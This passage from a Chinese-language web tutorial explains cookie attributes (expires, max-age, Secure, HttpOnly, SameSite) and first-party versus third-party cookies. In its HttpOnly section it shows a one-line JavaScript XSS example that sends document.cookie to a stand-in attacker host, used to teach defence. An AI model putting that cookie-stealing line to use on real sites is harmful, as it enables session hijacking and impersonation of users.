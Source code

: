 如果我们希望浏览器关掉之后 cookie 还是会被保存下来，那就必须设置  `expires` 或是  `max-age`。 

`expires` 是 UTC 格式表示的有效期限，在 JavaScript 中可用  `date.toUTCString()` 取得： 

```plaintext
cookie=value; expires=Tue, 19 Jan 2038 03:14:07 GMT
```

`max-age` 表示从设定开始算之后几秒之内 cookie 是有效的： 

```plaintext
cookie=value; max-age=3600
```

##### Secure

`Secure` 参数的作用是让 cookie 只能通过 https 传递。  **Cookie 默认是不区分 http 或是 https 的。**  

换句话说，当我们设定  [http://example.com ](http://example.com) 的 cookie 时， [https://example.com ](https://example.com) 也能看得到同样的 cookie。  

如果 cookie 设了  `secure` 参数，只有通过 https 访问这个网站才能访问这个 cookie; 透过 http 存取这个网站会看不到这个 cookie。  

这个参数的作用在于保护 cookie 只能在 https 传递。 话虽如此，我们还是不能将敏感信息储存在 cookie 中。  

##### Httponly 

`HttpOnly` 参数的作用是防止 JavaScript 访问 cookie。  

当一个 cookie 设置了  `httpOnly` 的属性之后，JavaScript 就不能存取这个 cookie，但是浏览器在发送 request 的时候还是会帮你带在 request header 里面。  

这个参数的设计是为了安全性考量，因为如果 JavaScript 能够访问这个 cookie 就有受到 XSS Attack （Cross-Site Scripting，跨站脚本攻击） 的风险。  

什么是 XSS Attack （跨站脚本攻击） 呢？  简单的说，就是将一段恶意的 JavaScript 代码通过表单等方式上传到 server，之后这份表单数据在前端呈现的时候恶意的  JavaScript 代码会被当成是 HTML 的一部分被执行。 假设黑客能够执行 JavaScript，便能很轻易地访问  `document.cookie`，就能够窃取你用来登入的 cookie，并且用你的身份做恶意的操作： 

```javascript
// 把你的 cookie 送到黑客的服务器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

这就是为什么我们需要禁止 JavaScript 访问 cookie。  

#### Samesite

`Samesite` 的作用是防止 cookie 以跨站方式传送，可以帮助避免 CSRF （Cross-Site Request Forgery，跨站请求伪造） 攻击。 由于篇幅有限，如果希望进一步了解CSRF，[这里](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)是一篇很好的介绍CSRF的文章。同时SameSite也可以对第三方Cookie的使用进行一些限制，如下面所述。

#### 第三方cookie

网页很多时候会需要向其他域请求资源，例如：我们可能会用  `<img src="...">` 的方式嵌入一张其他域的图片。 这些request也可以携带cookie，携带哪些cookie主要会根据资源的域。  

举个例子说明：假设我现在浏览  [example.com](http://example.com)，其中包含一张图片  `<img src="https://example.com/image.png">`，此时携带的 cookie 就会是  [example.com](http://example.com) 底下的 cookie。 因为这个请求的域和网址栏的域同样都是 [example.com](http://example.com)，所以这是一个相同域的请求。 此时  [example.com](http://example.com) 底下的 cookie 又称作第一方 cookie （first-party cookie）。  

如果 [example.com](http://example.com) 包含另外一张图片 `<img src="https://ad.com/image.png">`，他的网址是 [ad.com](http://ad.com)，此时携带的 cookie 就会是 [ad.com](http://ad.com) 底下的 cookie。因为[ad.com](http://ad.com) 不同于网址列的 [example.com](http://example.com)，所以这是一个跨域请求。此时 [ad.com](http://ad.com) 底下的 cookie 又稱作**第三方 cookie (third-party cookie)**。
